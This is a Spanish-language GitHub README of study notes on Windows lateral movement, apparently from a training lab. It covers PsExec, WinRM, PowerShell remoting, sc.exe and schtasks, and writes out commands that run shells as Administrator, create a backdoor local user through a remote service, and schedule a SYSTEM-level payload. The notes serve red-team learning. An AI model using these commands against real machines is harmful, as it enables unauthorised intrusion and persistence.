 # Introducción

En este repo aprenderemos sobre movimiento lateral y técnicas que usan los atacantes para moverse alrededor de la red haciendo las menores alertas posbiles. Aprenderemos tecnicas.

# Moverse alrededor de la red

Simplemente el movimiento lateral, es un grupo de tecnicas que usan los atacantes para moverse alrededor de la red. Una vez el atacante a ganado acceso a la máquina, es esencial el movimiento entre redes. 

## Un pequeño ejemplo

Suponemos que somos de "red team" y finalmente nos hemos metido en el código de un repositorio, donde tenemos un target en la red comprometido usando phising. (es el más efectivo)

![image](https://github.com/user-attachments/assets/c85a7bc1-24bd-4f49-8480-ae1aae192c27)

## La perspectiva del atacante

Hay unos "Pasos" que seguir a la hora de hacer movimientos laterales. Simplemente debemos entender protocolos administrativos como WinRM, RDP, VNC o SSH para conectanos a otras maquinas de la red. 

Como atacantes tenemos que ser buenos y meternos en retos contra los blue teams

## Administradores y UAC

Mientras hacemos movmimientos laterales, podemos usar credenciales de administrador pero hay que tener mucho cuidado con esto. es mejor usarç

- CUentas locales
- CUentas de dominio

La diferentes son las restricciones de la (UAC) en caso de querer movernos o hacer comandos necesarios.

# Crear procesos remotamente

## Psexec

- Puerto : 445/TCP (SMB)
- Administrador

Psexec es un metodo para ejectuar procesos remotamente por años. Coge al administrador y ejecuta comandos remotamente al ordenador que tiene acceso.
Psexec es una de las herramientas de sysinternals descarga [aquí](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

Los procesos o pasos a seguir:

- Conectarse con el Admin$ carpeta que podemos subir el binario. Se ejecuta como "psexecvc.exe"
- Conectar al servicio de control y ejecutar dicho servicio en "C:\Windows\psexesvc.exe"
- Crear

![image](https://github.com/user-attachments/assets/d0c4e6f7-4b71-4100-999e-71733c7e080f)

```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

## Proceso de creacion usando WinRM

- Puerto 5985/TCP (WindRM HTTP) o 5986/TCP (WinRM HTTPS)
- Remote Management Users

- Este protocolo esta basado en web se usa para mandar "Powershell" comands para los hosts de windows.

 ```
windrx.exe -u:Adminsitrator -p:Mypass123 -r:target cmd
 ```

```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

```
Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

## Crear servicios usando sc

- Puertos 135/TCP 49152-65535/TCP (DCE/RCP)
- Puertos 445/TCP (RCP O SMB)
- Puertos 139/TCP (RCP O SMB)
- Miembros grupo : Administradores

1- Nos conectamos usando DCE/RCP. El cliente se conecta al endpoint, el servidor cataloga que hay un RCP abiert. Responde con una IP y un rango de puertos

![image](https://github.com/user-attachments/assets/d5505fd7-6e15-43b9-b023-68eb9a980ef2)

2- Si la conexión falla, los nombre SMB se guarda.

![image](https://github.com/user-attachments/assets/d1dac505-470d-4ede-8e0d-3904a77eae28)

Podemos crear y ejecutar un servicio

```
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

El "net user" comando se ejecuta cuando el servicio empieza, creando un suario local en el sistema. El operador de sistema empieza el servicio.

Para parar el servicio y borrarlo

```
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

## Crear servicio remotamente controlados

Otra característica de windows son las tareas programas:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1"
```
```
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

# Movimiento lateras usando WMI





